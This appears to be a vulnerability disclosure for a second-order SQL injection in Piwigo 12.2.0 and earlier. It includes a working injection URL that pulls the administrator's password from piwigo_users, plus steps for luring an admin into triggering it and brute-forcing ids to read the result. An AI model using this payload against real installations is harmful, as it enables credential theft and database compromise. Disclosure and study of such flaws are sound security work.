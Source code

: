 ## Second-Order SQL Injection Vulnerabilities in Piwigo 12.2.0
<u>**Affected Version : <=12.2.0**</u>

A Second-Order SQL injection exists in Piwigo before 12.2.0. 
An attacker can use the function of search to insert some sql injection payload into the piwigo_search table and then use the id retrieved to generate an evil URL. 
 When an administrator open the URL,the sql injection will be triggered. An attacker can exploit the vulnerabilities to gain access to the connected MySQL database.

**Steps to Reproduce:**

**Step 1**
 
Request `http://127.0.0.1/qsearch.php?q[test'),((select concat("a:1:{s:1:\"q\";s:41:\"password:",(select mid(password,1,32) from piwigo_users where id%3d1),"\";}")))%23]=1`

And then it will be redirected to `http://127.0.0.1/index.php?/search/${id}`
Record the value of the id.



**Step 2**
 
Generate the URL `http://127.0.0.1/admin.php?page=history&search_id=${id}&user_id=1` (Replace the ${id} into the id that we have gotten last step).

And then send the URL to the administrator.


 
**Step 3**
 
When an administrator open the URL above,a piece of data that contains the password of the administrator account will be inserted into the piwigo_search table.If we want to retrieve the data,we need to know the id of the data that has been inserted into the piwigo_search table.


Then we can request `http://172.20.10.8/index.php?/search/${id}` to  retrieve the password of the administrator.
![2](21.png)
Because the id is incremental,we can just bruteforce it.
